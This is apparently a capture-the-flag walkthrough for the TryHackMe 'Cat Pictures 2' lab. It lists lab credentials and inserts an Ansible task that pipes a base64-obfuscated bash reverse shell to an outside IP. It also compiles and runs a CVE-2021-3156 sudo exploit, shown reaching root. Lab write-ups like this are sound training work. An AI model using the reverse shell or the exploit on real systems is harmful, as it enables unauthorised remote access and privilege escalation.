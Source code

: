 ```yaml
---
title: Cat Pictures 2
description: 'Security through obscurity, exploiting a Ansible playbook script and a kernel exploit'
pubDate: 2023-08-07
category: 'tryhackme'
tags: ['ansible', 'CVE-2021-3156']
image: 'https://tryhackme-images.s3.amazonaws.com/room-icons/4c424fa649d64938ae8282b14e4299ac.png'
---
```


Checking the metadata of the first cat image we find this:

```bash
exiftool f5054e97620f168c7b5088c85ab1d6e4.jpg
...[snip]...
Title                           : :8080/764efa883dda1e11db47671c4a3bbd9e.txt
...[snip]...
```

```
gitea: port 3000
user: samarium
password: TUmhyZ37CLZrhP
```

## USER

Update the ansible playbook.yml file to:
```yaml
---
- name: Test
  hosts: all                                  # Define all the hosts
  remote_user: bismuth
  # Defining the Ansible task
  tasks:
    - name: get the username running the deploy
      become: false
      command: id
      register: username_on_the_host
      changed_when: false

    - debug: var=username_on_the_host

    - name: Test
      shell: echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44LjExOS4xMzcvNDQ0NCAwPiYx | base64 -d | bash
```

And trigger the Ansible task again on OliveTin (port 1337).
This should gives us a shell.

## ROOT

When running linpeas we find a few kernel exploits, among these is `CVE-2021-3156`.

Lets try it by copying all the files to the box and running:
```bash
make
mkdir libnss_x
cc -O3 -shared -nostdlib -o libnss_x/x.so.2 shellcode.c
cc -O3 -o exploit exploit.c
./exploit
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),46(plugdev),115(lpadmin),116(sambashare),1000(bismuth)

```

We instantly get a root shell.
